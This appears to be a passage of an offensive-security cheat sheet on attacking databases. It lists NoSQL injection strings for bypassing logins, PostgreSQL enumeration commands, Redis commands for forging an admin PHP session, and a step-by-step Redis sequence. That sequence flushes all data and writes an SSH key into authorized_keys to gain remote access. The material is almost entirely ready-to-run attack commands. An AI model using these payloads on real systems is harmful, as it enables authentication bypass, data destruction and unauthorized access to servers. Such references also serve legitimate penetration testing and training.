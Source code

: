```
admin'||''==='
{"username": {"$ne": null}, "password": {"$ne": null} }
```

### <mark style="color:blue;">**PostgreSQL**</mark>

```
$ psql
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
$ psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
```

#### <mark style="color:yellow;">Common Commands</mark>

```
postgres=# \c
postgres=# \list
postgres=# \c  <DATABASE>
<DATABASE>=# \dt
<DATABASE>=# \du
<DATABASE>=# TABLE <TABLE>;
<DATABASE>=# SELECT * FROM users;
<DATABASE>=# \q
```

### <mark style="color:blue;">**Redis**</mark>

```
> AUTH <PASSWORD>
> AUTH <USERNAME> <PASSWORD>
> INFO SERVER
> INFO keyspace
> CONFIG GET *
> SELECT <NUMBER>
> KEYS *
> GET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b
> SET PHPREDIS_SESSION:2a9mbvnjgd6i2qeqcubgdv8n4b "username|s:8:\"<USERNAME>\";role|s:5:\"admin\";auth|s:4:\"True\";" # the value "s:8" has to match the length of the username
```

#### <mark style="color:yellow;">**Enter own SSH Key**</mark>

```
redis-cli -h <RHOST>
echo "FLUSHALL" | redis-cli -h <RHOST>
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /PATH/TO/FILE/<FILE>.txt
cat /PATH/TO/FILE/<FILE>.txt | redis-cli -h <RHOST> -x set s-key
<RHOST>:6379> get s-key
<RHOST>:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
<RHOST>:6379> CONFIG SET dir /var/lib/redis/.ssh
OK
<RHOST>:6379> CONFIG SET dbfilename authorized_keys
OK
<RHOST>:6379> CONFIG GET dbfilename
1) "dbfilename"
2) "authorized_keys"
<RHOST>:6379> save
OK
```
